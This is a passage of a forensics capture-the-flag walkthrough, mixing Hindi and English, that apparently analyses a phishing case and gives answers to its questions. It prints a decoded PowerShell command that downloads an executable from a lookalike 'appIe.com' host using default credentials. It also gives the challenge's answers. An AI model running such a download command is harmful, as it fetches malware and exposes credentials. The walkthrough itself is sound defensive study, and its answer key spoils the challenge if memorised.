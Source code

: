 **Decoded Output:**

```
Invoke-WebRequest -Uri 'http://appIe.com/Iphone.exe' -OutFile 'C:\Temp\IPhone.exe' -UseDefaultCredentials
```

**Answer:** `http://appIe.com/Iphone.exe`

---

### Question 7: Where was the malicious file downloaded to? (Provide the full path)

Previous question ke decoded command mein path hai.

**Answer:** `C:\Temp\IPhone.exe`

**Verify (Optional):**

```bash
# Autopsy: File Analysis → Temp folder check karo
# IPhone.exe file present hogi
```

---

### Question 8: What is the name of the framework used to create the malware?

```bash
# Step 1: Malware export karo
# Autopsy: Navigate to Temp/IPhone.exe
# Right-click → Export File
# Save to: ~/CyberDefenders/Phishy/evidence/malware.exe

# Step 2: Hash calculate karo
cd ~/CyberDefenders/Phishy/evidence
md5sum malware.exe
sha256sum malware.exe
```

**Step 3: VirusTotal mein check karo**

1. Browser mein jao: https://www.virustotal.com
2. Hash paste karo ya file upload karo
3. Detection results check karo
4. Results dikhenge: `Trojan.Meterpreter`, `Metasploit Framework`

**Answer:** `Metasploit`

---

### Question 9: What is the attacker's IP address?

#### Method 1: VirusTotal Relations Tab
